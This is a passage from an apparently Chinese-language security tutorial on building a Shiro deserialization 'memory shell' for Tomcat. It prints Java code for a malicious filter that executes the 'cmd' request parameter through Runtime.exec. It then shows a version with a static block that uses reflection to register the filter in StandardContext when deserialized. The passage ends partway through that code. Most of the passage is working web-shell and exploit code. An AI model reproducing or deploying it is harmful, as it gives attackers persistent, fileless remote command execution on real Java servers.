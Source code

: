 然后开始编写 filter 的主体部分，只需要写一个实现了 filter 接口的类就行，并加上一些必须要 override 的一些方法，由于后面在反序列化当中要用到 TemplatesImpl 用这个类来承载我们的恶意 filter 字节码，所以还要继承 AbstractTranslet。由此我们得到如下的一个恶意 filter

```plain
public class BehinderFilter extends AbstractTranslet implements Filter{

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        Runtime.getRuntime().exec(cmd);
        filterChain.doFilter(servletRequest, servletResponse);
        System.out.println("doFilter");
    }

    @Override
    public void destroy() {
    }
}
```

但这只实现了恶意 filter，并没有把动态注册 filter 的逻辑加进去，所以我们还应该考虑把之前写的代码塞到这里去，塞到哪里呢？在反序列化的时候恶意代码执行的位置一般都放在静态代码段以及构造函数当中，所以在 filter 内存马当中我们将动态注册 filter 的部分代码放到静态代码段中，让其在反序列化的时候就开始执行，最终我们得到 shiro 的 filter 型内存马。  
内存马如下：

```plain
public class BehinderFilter extends AbstractTranslet implements Filter{
    static {
        try {
            //StandardContext
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();
            //FilterDef
            Filter filter = new BehinderFilter();
            FilterDef filterDef = new FilterDef();
            filterDef.setFilter(filter);
            filterDef.setFilterName("EvilFilter");
            filterDef.setFilterClass(filter.getClass().getName());
            context.addFilterDef(filterDef);
            //FilterConfig
            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            constructor.setAccessible(true);
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
            Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
            field1.setAccessible(true);
            Map filterConfigs = (Map)field1.get(context);
```